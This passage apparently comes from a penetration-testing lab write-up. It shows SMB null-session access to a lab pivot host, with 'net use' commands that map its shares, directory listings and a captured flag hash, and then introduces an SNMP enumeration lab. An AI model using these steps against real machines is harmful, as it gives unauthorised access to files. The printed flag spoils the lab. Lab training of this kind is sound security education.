 This time we can see two shared resources. `Documents` and `K` drive. And, this confirms that pivot target (`demo1.ine.local`) allows Null Sessions, so we can access the shared resources.

Now, we can map the shared drive to the `demo.ine.local` machine using the net command.

`net use D: \\10.4.28.92\Documents`, `net use E: \\10.4.28.92\K`.

`dir E:`:
```
 Volume in drive E is New Volume
 Volume Serial Number is E654-107F

 Directory of E:\

11/17/2021  03:34 PM           327,590 wallpaper.png
               1 File(s)        327,590 bytes
               0 Dir(s)  10,951,335,936 bytes free
```

`dir D:`:
```
 Volume in drive D has no label.
 Volume Serial Number is 5CD6-020B

 Directory of D:\

01/04/2022  05:22 AM    <DIR>          .
01/04/2022  05:22 AM    <DIR>          ..
01/04/2022  05:07 AM             1,425 Confidential.txt
01/04/2022  05:22 AM                70 FLAG2.txt ←
               2 File(s)          1,495 bytes
               2 Dir(s)   6,607,810,560 bytes free
```

`type D:\\FLAG2.txt`:
```
c8f58de67f44f49264e6c99e8f17110c ←
```

---

### SNMP Analysis - Lab

In this lab, you will learn to scan the target machine to discover SNMP service and perform information gathering using SNMP nmap scripts and other tools.

In this lab environment, the user will get access to a Kali GUI instance. An instance of the vulnerable service can be accessed using the tools installed on Kali at http://demo.ine.local

Objective: Exploit the target to gain the shell and find the flag!

The best tools for this lab are:
- Nmap
- Metasploit Framework
- snmpwalk
- Hydra

---